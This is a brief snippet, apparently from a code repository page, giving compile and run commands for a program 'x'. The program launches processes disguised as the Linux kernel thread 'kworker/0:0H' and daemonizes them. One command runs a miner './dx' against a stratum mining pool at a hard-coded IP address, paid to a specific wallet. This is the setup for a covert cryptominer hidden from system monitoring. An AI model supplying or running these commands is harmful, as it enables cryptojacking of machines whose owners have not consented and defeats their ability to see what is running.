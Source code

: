 #compile

gcc -o x x.c

#execute

./x -c -s "kworker/0:0H" -d -p test.pid node run.js


./x -c -s "kworker/0:0H" -d -p test.pid ./dx -o stratum+tcp://141.94.223.113:4052 -u 49cg2BTsCdmBfUPsCrDsGmREn2diVYSKUahupm2bay5ZU3gmVTzuwgY7yhQcbYCdEeZXSHsYLZKLWXTR4DNR3xcJS29HszU -k -p x
